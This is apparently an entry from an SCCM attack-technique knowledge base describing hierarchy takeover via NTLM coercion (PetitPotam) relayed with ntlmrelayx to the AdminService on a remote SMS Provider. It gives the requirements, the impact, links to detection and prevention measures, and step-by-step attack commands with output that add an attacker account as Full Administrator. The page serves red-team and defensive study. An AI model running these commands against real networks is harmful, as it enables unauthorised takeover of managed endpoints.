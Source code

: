 # TAKEOVER-5

## Description
Hierarchy Takeover via NTLM coercion and relay to AdminService on remote SMS Provider

## MITRE ATT&CK TTPs
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-5.1: Coerce primary site server 
    - TAKEOVER-5.2: Coerce passive site server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server [DEFAULT]
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target [DEFAULT]

### Relay
- Connectivity from the relay server to HTTPS (TCP/443) on the relay target hosting the SMS Provider role
- Relay target domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target [DEFAULT]
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target [DEFAULT]

## Summary
The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM site systems for high availability configurations. The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The site server computer account is a member of the `SMS Admins` security group on each SMS Provider in a site by default.

The SMS Provider also provides access to the site database via the administration service (AdminService) REST API and uses Microsoft Negotiate for authentication. In default configurations, the AdminService is vulnerable to NTLM relay attacks.

## Impact
This technique may allow an attacker to relay a site server's domain computer account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM hierarchy. If successful, this technique enables an attacker to execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-5: Monitor group membership changes for SMS Admins](../../../defense-techniques/DETECT/DETECT-5/detect-5_description.md)
- [PREVENT-9: Enforce MFA for SMS Provider calls](../../../defense-techniques/PREVENT/PREVENT-9/prevent-9_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

> **Note:** Extended Protection for Authentication (EPA) is not currently supported by the AdminService (as of March 2024), so cannot be configured to prevent relay to the AdminService.

## Subtechniques
- TAKEOVER-5.1: Coerce primary site server
- TAKEOVER-5.2: Coerce passive site server

## Examples

1. Use `SCCMHunter` to profile SCCM infrastructure:
    ```
    [02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
    [02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```

2. On the attacker relay server, start `ntlmrelayx` (currently, Garrett Foster's [fork/pull request here](https://github.com/fortra/impacket/pull/1593) must be used until it is merged into impacket), targeting the URL of the AdminService API on the remote SMS Provider identified in the previous step, and provide a target account to add as a Full Administrator:
    ```
    └─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\specter" --objectsid <USER SID> -smb2support -t https://SMS_PROVIDER_URL_OR_IP/AdminService/wmi/SMS_Admin
    Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:
    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the AdminService on the SMS Provider to add a Full Administrator:
    ```
    ┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]


    [*] Servers started, waiting for connections
    [*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.121, attacking target https://provider.internal.lab
    [*] Exiting standard auth flow to add SCCM admin...
    [*] Authenticating against https://provider.internal.lab as LAB/SCCM$
    [*] Skipping user SCCM$ since attack was already performed
    [*] Server returned code 201, attack successful
    ```

4. Confirm that the account now has the `Full Administrator` role by querying WMI on an SMS Provider:
    ```
    $ python3 sccmhunter.py  admin -u specter -p <PASSWORD> -ip SITE-SMS          

    [14:16:54] INFO     [!] Enter help for extra shell commands                                                                                                                                              
    () (C:\) >> show_admins
    [14:17:11] INFO     Tasked SCCM to list current SMS Admins.                                                                                                                                              
    [14:17:12] INFO     Current Full Admin Users:
    [14:17:13] INFO     lab\Administrator 
    [14:17:13] INFO     lab\specter 
    ```

## References
- Garrett Foster, [SCCMHunter](https://github.com/garrettfoster13/sccmhunter)
- Garrett Foster, [Site Takeover via SCCM's AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)
- Microsoft, [Plan for the SMS Provider](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider)
- Microsoft, [What is the administration service in Configuration Manager?](https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview)
